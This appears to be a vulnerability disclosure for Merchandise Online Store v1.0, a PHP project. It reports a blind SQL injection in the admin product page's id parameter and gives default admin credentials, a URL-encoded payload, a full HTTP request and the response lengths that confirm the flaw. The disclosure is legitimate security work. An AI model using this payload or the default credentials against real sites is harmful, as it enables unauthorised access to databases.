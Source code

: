 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/admin/?page=product/manage_product&id=

Vulnerability location: /vloggers_merch/admin/?page=product/manage_product&id=,id

[+] Payload: /vloggers_merch/admin/?page=product/manage_product&id=5%27%20and%20length(database())%20=17%20--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/admin/?page=product/manage_product&id=5%27%20and%20length(database())%20=17%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 30380

![image](https://user-images.githubusercontent.com/54017627/166880229-878f20bd-f433-473a-9e97-852e8b0fa08d.png)

![image](https://user-images.githubusercontent.com/54017627/166880330-243ad274-a586-434a-abfe-0a7e24780e9e.png)

When length (database ()) = 17, Content-Length: 33673

![image](https://user-images.githubusercontent.com/54017627/166880180-98bd34c9-69c0-4809-96ae-b985a9ffa5af.png)

![image](https://user-images.githubusercontent.com/54017627/166880274-6c48ef3a-31be-4fb1-9463-ef812430ddc0.png)
